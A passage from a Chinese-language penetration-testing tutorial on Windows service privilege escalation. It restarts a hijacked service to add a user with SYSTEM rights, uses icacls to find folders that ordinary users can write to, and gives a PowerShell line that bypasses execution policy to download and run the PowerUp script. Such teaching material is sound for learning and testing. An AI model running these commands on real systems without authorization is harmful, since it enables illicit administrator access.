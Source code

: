 -   重启服务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>sc stop VMTools<br>sc start VMTools<br>``` |

但要注意这里启动时会报错，因为当一个服务在 Windows 系统中启动后，它必须和服务控制管理器通信。如果没有通信，服务控制管理器会认为出现了错误，并会终止这个进程。但是我们的命令已经以 SYSTEM 权限运行了，并且成功添加了一个用户。

信息

利用系统自带的 icacls 也可以：

确定写入权限：`icacls "C:\Program Files\program folder"`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127101438.png-water_print](assets/1699411459-3d911aa63051288003b1ed38875b25cf.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127101438.png-water_print")

「M」表示修改、「F」表示完全控制

「CI」代表从属容器将继承访问控制项

「OI」代表从属文件将继承访问控制项

常用命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```bash<br>icacls "C:\Program Files\*" 2>nul \| findstr "(M)" \| findstr "Everyone"<br><br>icacls "C:\Program Files(x86)\*" 2>nul \| findstr "(M)" \| findstr "Everyone"<br><br>icacls "C:\Program Files\*" 2>nul \| findstr "(M)" \| findstr "BUILTIN\Users"<br>icacls "C:\Program Files(x86)\*" 2>nul \| findstr "(M)" \| findstr "BUILTIN\Users"<br>``` |

#### [](#312-powersploit)3.1.2 PowerSploit

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```powershell<br>powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"<br><br>powershell.exe -exec bypass -Command "& {Import-Module D:/PowerUp.ps1; Invoke-AllChecks}" > 1.txt<br>``` |

列出了所有可能存在问题的服务：
